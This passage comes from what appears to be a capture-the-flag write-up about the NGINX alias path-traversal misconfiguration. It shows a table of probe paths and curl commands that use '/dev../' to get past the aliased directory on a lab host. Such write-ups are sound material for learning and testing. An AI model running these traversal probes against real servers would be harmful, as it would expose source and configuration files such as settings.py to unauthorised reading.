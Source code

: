 Orange shows some tests that will identify this problem:

| HTTP Response Code | Path |
| --- | --- |
| 200 | http://target/assets/app.js |
| 403 | http://target/assets/ |
| 404 | http://target/assets/../settings.py |
| 403 | http://target/assets../ |
| 200 | http://target/assets../ |
| 200 | http://target/assets../settings.py |

The first three are what you’d expect. But the last three are where things get weird, and that’s the vulnerability.

#### Check for NGINX Alias Bug

I can check for this bug on `www.nestedflanders.htb`. I don’t have the exact same situation, but I can do the equivalent of the first three tests by checking for `index.html` and the root and getting 200 for both (in this case I’m allow to access the dir root, so 200 instead of 403):

```

root@kali# curl -s -k -I https://www.nestedflanders.htb/dev/index.html | grep HTTP
HTTP/1.1 200 OK
root@kali# curl -s -k -I https://www.nestedflanders.htb/dev/ | grep HTTP
HTTP/1.1 200 OK

```

Things get interesting when I try to go up a directory:

```

root@kali# curl -s -k -I https://www.nestedflanders.htb/dev../ | grep HTTP
HTTP/1.1 403 Forbidden

```

That shouldn’t work. But it gives me a forbidden.

#### Grab Source

Based on my guess of the layout of the folder structure above, I can check for files on the `html` (default) path:

```

root@kali# curl -s -k -I https://www.nestedflanders.htb/dev../html/ | grep HTTP
HTTP/1.1 200 OK

```

I can verify that this is the default apache page by removing the `-I` option.
